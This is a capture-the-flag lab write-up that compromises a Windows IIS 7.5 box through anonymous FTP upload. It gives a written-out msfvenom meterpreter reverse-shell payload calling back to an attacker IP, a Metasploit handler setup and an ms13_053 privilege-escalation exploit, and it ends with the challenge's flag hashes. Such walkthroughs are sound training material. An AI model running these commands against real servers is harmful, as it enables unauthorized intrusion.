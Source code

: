 
Let's start enumeration with nmap.

``` bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 07-18-23  11:27AM                 3474 reverse.aspx
| 07-18-23  11:19AM                   31 test.html
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Found two open ports 

	22 ftp(commonly used for file transfer)
	80 http(used for web) http allow us trace method will enumurate it further
	
First try to login as Anonymous user on FTP

After login successfully as Anonymous user we will now try to upload files on ftp server and we got success on it

<img alt="Pasted image 20230718025049" src="https://github.com/iammR0OT/HTB/assets/74102381/52dbb8da-3f50-4348-a0e7-49e38dc4ec09">

 Now we found that the port 80 is also open lets find out what is running on that port
 
<img alt="Pasted image 20230718025202" src="https://github.com/iammR0OT/HTB/assets/74102381/d73f7428-49b9-47b0-975c-e1f21185cc35">

See some web files on ftp server 

Lets try to find out if that files are this web server files by try to access key.txt file we upload on the ftp server.

<img alt="Pasted image 20230718025340" src="https://github.com/iammR0OT/HTB/assets/74102381/c3729335-bba5-4bbe-bdb6-2c302da746af">

And we got success which means we can upload any file on ftp server access it through webserver

With response header we can identify that Miscrosoft IIS 7.5 is running as a server

<img alt="Pasted image 20230718025545" src="https://github.com/iammR0OT/HTB/assets/74102381/9430c8db-94d8-47ce-a6d2-adbe82088a4a">

Lets try to find out its exploit

After some research we find out that we can run any command on webserver through this vulnerability

Lets try to create reverse shell file using msfvenom and upload it on ftp server and run it through webserver

 `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.71 LPORT=6969 -f aspx -o shell.aspx`
 
Now, Lets upload it to the webserver and start mscvenom multihandler
to get shell back

For that run metasploit 
	`msfconsole`
Set generic payload handler
	`set exploit/multi/handler`
Set payload type
	`set payload windows/meterpreter/reverse_tcp`
Change the lport with you attacer machine port and lhost to your attacker machine ip
	`run`
After running` shell.aspx` on webserver we got a successful reverse shell on our meterpreter

<img  alt="Pasted image 20230718032142" src="https://github.com/iammR0OT/HTB/assets/74102381/041683d0-b954-483a-a2e9-ee521bca50ae">


Now we have to do privilege Esclation

For that we will first background our current session using `background` command
now we will use **post/multi/recon/local_exploit_suggester** 

It runs basic exploits to find out if the machine is vulnerable to the exploit

<img alt="Pasted image 20230718220206" src="https://github.com/iammR0OT/HTB/assets/74102381/0d6535d5-52d6-4ad8-9a9e-aca18cda3934">

And we find that machine is vulnerable to a lot of vulnerabilities

We will use **exploit/windows/local/ms13_053_schlamperei**

It will create a **dll injcetion** on processes 

After the exploit successfully run we will **migrate** our exploited process to the previous process to gain root shell

And we got our beautiful root shell on machine

<img alt="Pasted image 20230718220523" src="https://github.com/iammR0OT/HTB/assets/74102381/cb370024-4506-44dc-a263-333c62e30cfd">

```
User =>> 64934acc103a0b330096c3219f15a486
Root =>> dd6943fb4d4b90be0fbb0bfd3e603372
```
